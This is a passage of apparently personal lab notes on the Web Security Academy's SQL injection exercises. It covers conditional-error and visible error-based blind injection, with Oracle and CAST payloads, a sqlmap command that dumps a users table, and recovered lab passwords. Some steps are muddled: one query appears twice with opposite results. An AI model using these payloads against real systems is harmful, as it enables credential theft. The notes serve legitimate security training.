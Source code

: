 **TIP:** In the intruder, set the payload with a-z, A-Z, 0-9, and in the Settings, use the "grep" to match whatever you want. In this case, "Welcome back"

This is the password: cjxoaecw5dswvyf8dfn2

`python3 sqlmap.py -u "https://0ab200bf03110fdd80668f0d00cb0016.web-security-academy.net/" --cookie="TrackingId=NqaTIQn0uAfNdMiq*" --batch -D public -T users -C "username,password" --dump`

---
### Blind SQL injection with conditional errors

Add a single quote to the TrackingId, and you'll see it throws an error. Add another one, and the page works just fine

``'||(SELECT '')||'`` to chech if stills broken the web (it's a valid query syntax, so it shouldn't). As this breaks the page, try with a Oracle syntax:
`'||(SELECT '' FROM dual)||'` and this responds OK.

Now, this should be true, confirming there is a "users" table, and the ROWNUM=1 ensures there is only one row returned, so we don't break our concatenation

Now, this returns an error:
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

But this doesn't `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` meaning we can trigger an error conditionally on the truth of a specific condition. 

Verify there is an "administrator" username, with this query: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. As it throws an error, it's true. 

To check it's length `'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Again, the length is 20.

And this will be the iterator to get every character: `'||(SELECT CASE WHEN SUBSTR(password,1,1)='ITERATOR' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

This is the password: cnr4ypywu0q8v3dpdcgy

---
### Visible error-based SQL injection

In the trackingId value, append a single quote `'`and you'll see the page is returning the full error, disclosing the query. 

![[Pasted image 20240521204224.png]]

If you put this query, it returns a detailed error:
`' AND CAST((SELECT 1) AS int)--`

![[Pasted image 20240521204400.png]]
As the condition met, this query should not return error  `' AND 1=CAST((SELECT 1) AS int)--`

Replace the 1 of the SELECT for your desired query. And you'll see there is not enough space for your response. **So remove the value of the TrackingId**
`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--

